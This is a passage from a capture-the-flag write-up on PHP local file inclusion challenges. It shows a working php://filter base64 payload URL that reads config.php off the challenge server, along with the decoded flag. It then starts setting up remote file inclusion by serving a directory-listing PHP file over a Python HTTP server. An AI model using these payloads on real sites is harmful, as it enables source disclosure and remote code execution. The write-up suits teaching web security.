 Almost the same as lfi1, but we don't have access to the source code.

## Solution

The solution is the same as for lfi1, except that the input given is concatenated with '.php'

Url: 
```
https://extprotect.secu-web.blackfoot.dev/?lang=php://filter/convert.base64-encode/resource=config
```

Base64 config.php:
```
PD9waHAKICAvLyBDb25ncmF0eiAhIEZMQUcgSVMgWk9CezN2M25fcHIwdF9jNG43X3N0MHBfbTN9Cj8+Cg==
```

Base64 decoded:
```
<?php
  // Congratz ! FLAG IS ZOB{3v3n_pr0t_c4n7_st0p_m3}
?>
```

flag: ```ZOB{3v3n_pr0t_c4n7_st0p_m3}```

# lfi4

## What it is

Same as the others, but we don't know what file the flag is in.

## Solution

We need to find the path to the file the flag is in.

We can do that by executing code from a remote file ([source](https://www.php.net/manual/en/features.remote-files.php)):

### Serving the remote file

This code will be executed on the server and print the files in the server's current directory:
```php
echo implode(", ", scandir("."))
```

We can make a simple http server with python3
```
python3 -m http.server 8080
```
```
$ curl localhost:8080/remote.php 
<?php
    echo implode(", ", scandir("."))
?>
```
